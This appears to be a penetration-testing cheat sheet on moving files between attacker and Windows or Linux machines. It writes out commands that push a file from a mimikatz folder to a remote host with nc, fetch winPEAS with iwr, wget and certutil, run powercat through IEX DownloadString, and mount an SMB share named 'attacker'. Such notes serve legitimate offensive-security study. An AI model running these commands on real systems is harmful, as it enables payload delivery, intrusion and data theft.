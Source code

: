 #### Transfer to Linux

>[!code]- From Linux or Windows
>On the sending machine
>```powershell
>nc 192.168.118.2 443 < C:\tools\mimikatz\x64\file.txt
>```
#### Transfer to Windows

>[!code]- From Linux or Windows
>On the receiving Windows machine:
>```powershell
>PS C:\Users\dave> iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
>```
>___
>```powershell
>PS C:\Users\dave> wget -uri http://192.168.118.2/winPEASx64.exe -OutFile winPEAS.exe
>```
>___
>```powershell
>PS C:\Users\dave> IEX (New-ObjectSystem Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1")
>```
>___
>```powershell
>PS C:\Users\dave> certutil -urlcache -split -f "http://192.168.118.2:8000/winPEASx64.exe" winPEAS.exe
>```

>[!code]- From Linux
>On the sending Linux machine:
>```bash
>impacket-smbserver attacker $(pwd) -smb2support -user bubbleman -password bubbleman
>```
>On the receiving Windows machine:
>```powershell
>$pass = convertto-securestring 'bubbleman' -asplaintext -force
>
$cred = new-object system.management.automation.PSCredential('bubbleman',$pass)
>
new-psdrive -name bubbleman -psprovider filesystem -credential $cred -root \\10.10.14.7\attacker
>
cd bubbleman:
>```

